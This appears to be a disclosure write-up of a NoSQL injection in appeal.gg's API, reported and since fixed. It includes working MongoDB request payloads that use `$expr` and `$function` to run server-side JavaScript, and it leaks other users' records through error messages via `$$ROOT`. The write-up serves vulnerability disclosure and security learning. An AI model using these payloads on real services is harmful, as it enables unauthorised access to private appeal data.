



## You banned me? welp, I will dump your data!
*Fixed on: 08/04/2026*

[Website](https://appeal.gg) | [Discord](https://sapph.xyz/server)

appeal.gg is a platform made by the dev of Sapphire to basically handle appeal forms. The dashboard looks nice:



Inspecting requests sent to the API, I saw that if you put an object instead of an identifier, it will throw an error, but if I put something like `{"$neq": 1}`, the request now say that everything is good (and the change is made)... something already smelling bad there.

```json
// PATCH /api/v1/user-guilds/:guild_id/sections/forms -> 200 OK
{
    "shortDescription":"test",
    "_metadata":{
        "formId":{
            "$neq": 1
        }
    }
}
```

But, it seems that on the dashboard I was constrained to only the document of my guilds. So, I started to think on places were I could be in the context of another document where I could have some permissions... and that was the same appeal page of the guild!



When sending the answers for a specific form, this was sent by `POST` to `api/v1/guilds/:guild_id/submissions`:

```json
{
    "formId":":form_id",
    "answers":{
        ":question_id":"This is a test!"
    },
    "encr":false
}
```

I firstly putted something strange on `formId` like `{"$abc":123}`, and the server said:

```json
{
    "code":8,
    "message":"Internal error: Executor error during find command: unknown operator: $abc"
}
```

So, I get error messages and i'm injecting NoSQL operators, good. Now, watching the MongoDB, I saw the [$expr](https://www.mongodb.com/docs/manual/reference/operator/query/expr/) predicate operator:

> Syntax: `{ $expr: { <expression> } }`
>
> The argument can be any valid expression.

On this operator, you could put anything that is a valid expression, like this:

```json
{
    "$expr": { 
        "$gt": [ "$tomatoes.viewer.rating", "$tomatoes.critic.rating" ] 
    } 
}
```

And there is the expression operator `$function`:

> Syntax: 
```
{
  $function: {
    body: <code>,
    args: <array expression>,
    lang: "js"
  } 
}
```

This basically let's you run arbitrary JavaScript against the document. Note that this will only work if the MongoDB instance has JavaScript enabled... and in this case it was enabled.

So, by putting this:

```json
{
    "formId":{
        "$expr":{
            "$function":{
                "body":"function t(){ return true; }",
                "args":[],
                "lang":"js"
            }
        }
    },
    "answers":{
        ":question_id":"This is a test!"
    },
    "encr":false
}
```

The server would now say that everything is okay, but it can't find the form (probably because with that, the server does not know what form refer to), but knowing that the server shows errors, I tried changing the `body` to:

```js
function t(){
    throw Error("owo");
}
```

and the server said:

```json
{
    "code":8,
    "message":"Internal error: Executor error during find command: appealgg.**** :: caused by Error: owo"
}
```

We can also see data, and on MongoDB there is a special variable called `$$ROOT` and it refers to the current document. So by putting it in the args, adding an argument to the function and changing its code to show the argument in the error:



This, chained with the Sapphire bug could allow you to read appeals sent by other users.

The dev fixed it some hours after I reported the bug.
